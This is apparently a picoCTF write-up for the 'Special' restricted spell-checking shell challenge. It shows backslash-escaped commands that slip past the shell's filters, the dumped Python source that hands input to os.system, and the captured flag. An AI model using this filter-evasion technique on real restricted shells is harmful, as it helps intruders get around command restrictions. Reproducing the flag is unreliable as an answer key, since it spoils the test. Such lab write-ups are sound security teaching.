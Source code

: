 # special

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details.

Additional details will be available after launching your challenge instance.


## Solucion

```
Special$ \e\c\h\o *
\e\c\h\o *
blargh


```

```
Special$ \c\a\t /usr/local/Special.py
\c\a\t /usr/local/Special.py
#!/usr/bin/python3

import os
from spellchecker import SpellChecker



spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0

  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue

  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)

  try:
    print(fixed_cmd)
    os.system(fixed_cmd)
  except:
    print("Bad command!")
```

```
Special$ \/b\i\n/ls \-\R
\/b\i\n/ls \-\R
.:
blargh

./blargh:
flag.txt
```

```
Special$ \c\a\t \b\l\a\r\g\h/flag.txt
\c\a\t \b\l\a\r\g\h/flag.txt
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}
```

## referencias

https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

